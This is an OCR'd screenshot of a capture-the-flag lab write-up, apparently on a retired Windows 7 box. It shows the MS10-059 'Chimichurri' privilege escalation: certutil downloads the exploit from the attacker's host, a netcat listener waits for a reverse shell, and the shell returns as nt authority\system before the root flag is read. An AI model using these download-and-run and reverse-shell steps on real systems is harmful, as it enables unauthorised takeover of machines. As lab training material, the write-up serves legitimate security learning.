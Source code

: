 	C:\Users\tolis\Desktop\tmp> certutil.exe -urlcache -split -f http://10.10.17.8/MS10-059.exe
	****  Online  ****
	  000000  ...
	  0bf800
	CertUtil: -URLCache command completed successfully.

-------

	C:\Users\tolis\Desktop\tmp> dir
	 Volume in drive C has no label.
	 Volume Serial Number is F88F-4EA5

	 Directory of C:\Users\tolis\Desktop\tmp

	07/08/2021  09:55 ��    <DIR>          .
	07/08/2021  09:55 ��    <DIR>          ..
	07/08/2021  09:58 ��           784.384 ms10-059.exe
		       1 File(s)        784.384 bytes
		       2 Dir(s)  33.180.422.144 bytes free

// Open a listiner with nc
	
	$ sudo rlwrap nc -lvnp 443
	listening on [any] 443 ...
	
// Run ms10-059.exe with IP & PORT

	C:\Users\tolis\Desktop\tmp> ms10-059.exe 10.10.17.8 443
	/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Changing registry values...<BR>/Chimichurri/-->Got SYSTEM token...<BR>/Chimichurri/-->Running reverse shell...<BR>/Chimichurri/-->Restoring default registry values...<BR>

// We got NT/SYSTEM !!!
	
	$ sudo rlwrap nc -lvnp 443
	listening on [any] 443 ...
	connect to [10.10.17.8] from (UNKNOWN) [10.10.10.11] 51258
	Microsoft Windows [Version 6.1.7600]
	Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

	C:\Users\tolis\Desktop\tmp>whoami
	whoami
	nt authority\system

// And root flag !

	C:\Users\Administrator\Desktop> type root.txt
	ce65ceee6............................

